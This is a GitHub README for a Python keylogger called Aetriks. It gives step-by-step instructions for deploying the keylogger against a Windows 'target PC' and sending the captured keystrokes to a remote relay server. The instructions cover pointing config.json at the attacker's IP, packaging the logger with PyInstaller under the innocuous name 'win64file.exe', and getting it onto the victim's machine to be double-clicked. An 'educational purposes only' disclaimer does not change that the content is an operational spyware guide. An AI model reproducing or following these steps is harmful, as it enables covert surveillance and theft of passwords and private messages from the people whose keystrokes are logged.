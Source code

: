 # Aetriks: Simple Python Keylogger

A simple Python keylogger that captures keystrokes on a Windows target PC and sends them to a remote server running on Linux.

> **Disclaimer**:  
> This code is for **educational purposes only**! Do not use it for any illegal activities. Misuse of this tool is your responsibility.

---

## Features

- Captures keystrokes in real-time on a Windows target PC.
- Sends collected keystrokes to a remote server running on Linux.
- Configurable server IP, port, and data transmission interval.

---

## Installation Guide (Linux)

### **Step 1: Clone the Repository**

1. Clone the Aetriks repository:
   ```bash
   git clone https://github.com/frHimanshu/Aetriks.git
   cd Aetriks
   ```

2. Clone the Aetriks Relay Server repository inside the `Aetriks` directory:
   ```bash
   git clone https://github.com/frHimanshu/aetriks-relay.git
   ```

---

### **Step 2: Set Up the Keylogger**

1. Create a virtual environment:
   ```bash
   python3 -m venv keylogger_env
   source keylogger_env/bin/activate
   ```

2. Install required dependencies:
   ```bash
   pip install -r requirements.txt
   ```

3. Edit the `config.json` file:
   - Update the `ip_address` field with the IP address of the Linux machine running the Aetriks Relay Server.
   - Example:
     ```json
     {
         "ip_address": "",
         "port_number": 8080,
         "time_interval": 10
     }
     ```

4. Convert the keylogger to a Windows executable:
   - Install PyInstaller:
     ```bash
     pip install pyinstaller
     ```
   - Build the executable and include `config.json`:
     ```bash
     pyinstaller --onefile --name win64file --add-data=config.json:. keylogger.py
     ```
   - The output executable (`win64file.exe`) will be located in the `dist` directory.

5. Transfer the executable to the Windows target PC and run it by double-clicking the file.

---

### **Step 3: Set Up the Aetriks Relay Server**

Refer to the [Aetriks Relay Server Repository](https://github.com/frHimanshu/aetriks-relay) for detailed installation instructions.

---

## Legal and Ethical Use

This project is for **educational purposes only**.  
**Make sure you have explicit permission** before running this on any device. Misuse of this tool is your responsibility.

---

## Contribution

Feel free to contribute to this project by submitting issues or pull requests on [GitHub](https://github.com/frHimanshu/Aetriks).

---

## License

This project is licensed under the MIT License. See the `LICENSE` file for details.
